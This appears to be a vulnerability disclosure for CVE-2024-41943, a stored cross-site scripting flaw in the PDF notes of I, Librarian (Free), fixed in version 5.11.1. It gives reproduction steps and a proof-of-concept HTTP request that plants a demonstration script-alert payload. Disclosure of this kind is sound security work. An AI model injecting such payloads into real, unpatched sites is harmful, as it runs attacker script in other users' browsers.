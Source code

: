 # CVE-2024-41943

## I, Librarian (Free) - Stored XSS

I, Librarian is an open-source version of a PDF managing SaaS.\
PDF notes are displayed on the Item Summary page without any form of validation or sanitation.

An attacker can exploit this vulnerability by inserting a payload in the PDF notes that contains malicious code or script. This code will then be executed when the page is loaded in the browser.\
The vulnerability was fixed in version 5.11.1.

***

## Steps to Reproduce

1. Import a PDF file and navigate to its summary by clicking on the imported PDF file's name in the Items menu in the dashboard
2. Click on the "Pdf" button under the file's name in the top-side of the page to navigate to the file's preview
3. Click on the "Annotations" button in the top menu to save a comment containing an XSS payload such as: `<script>alert(1)</script>`
4. The stored XSS payload will be triggered any time a user visits the targeted PDF's summary.

***

## Proof of Concept

```html
POST /librarian/index.php/pdf/savenote HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1280
X-Requested-With: XMLHttpRequest
Content-Length: 138
Origin: http://127.0.0.1:8080
Connection: keep-alive
Referer: http://127.0.0.1:8080/librarian/index.php/item
Cookie: IL=<cookie>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

note=%3Cscript%3Ealert(1)%3C%2Fscript%3E&pg=1&top=1&left=1&id=<pdf-id>&csrfToken=<token>
```

***

## References

* [https://github.com/mkucej/i-librarian-free](https://github.com/mkucej/i-librarian-free)
* [https://nvd.nist.gov/vuln/detail/CVE-2024-41943](https://nvd.nist.gov/vuln/detail/CVE-2024-41943)
* [https://github.com/mkucej/i-librarian-free/security/advisories/GHSA-h5hx-fm7f-2xmx](https://github.com/mkucej/i-librarian-free/security/advisories/GHSA-h5hx-fm7f-2xmx)
* [https://i-librarian.net/](https://i-librarian.net/)
